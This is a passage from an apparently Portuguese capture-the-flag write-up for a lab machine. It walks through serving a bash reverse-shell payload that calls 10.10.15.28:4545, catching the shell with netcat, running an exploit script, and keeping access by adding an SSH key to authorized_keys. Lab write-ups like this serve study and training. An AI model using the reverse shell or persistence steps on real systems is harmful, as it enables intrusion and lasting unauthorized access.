 ```python 
```

No `payload.sh` devemos colocar algum comando que queremos executar.
**payload.sh**
```sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.15.28/4545 0>&1 # CHANGE THIS
```
#### Executando
Primeiro temos que colocar um `listener` como o ``nc`` ou o `netcat` para ouvir a porta na qual vamos receber a `shell`. Como definido no `payload.sh`.
```sh
nc -lvnp 4545
```

Depois devemos servir nossa payload na porta que definimos no `exploit.py`.
```sh
python -m http.server -p 8000
```

E então podemos executar nosso exploit. o `ip` e a `port` devem ser os que estão no `Teamserver{...}`. E o `target` deve ser o `ip` da máquina.
```
python3 ./exploit.py -t https://10.10.11.49 -i 127.0.0.1 -p 40056
```

![[Pasted image 20250325092251.png]]
**E estamos dentro !!!**

Podemos então pegar a flag de usuário.
![[Pasted image 20250325104219.png]]
***
# Permanência
Há um script que nos desconecta após um tempo, então devemos achar um jeito de nos conectar de forma estável. O mais comum é colocarmos nossa `public_key` no arquivo `~/.ssh/authorized_keys`, que é o que vamos fazer.

Na nossa máquina geramos uma nova chave.
```sh
ssh-keygen -t ed25519 -b 2048 -f backfire.key
```

E então podemos colocar nossa chave pública no alvo.
```sh
echo "<YOUR_PUBLIC_KEY>"  >> ~/.ssh/authorized_keys
```

E agora fazer conexão via ``ssh``.
```sh
ssh ilya@10.10.11.49 -i ./backfire.key
```
![[Pasted image 20250325092543.png]]
***
# Lateral Movement
Ao tentar executar `sudo -l`, é exigido uma senha, tentei as dos arquivos de configuração, mas não é nenhuma delas.
```
sudo -l
```
![[Pasted image 20250325093443.png]]
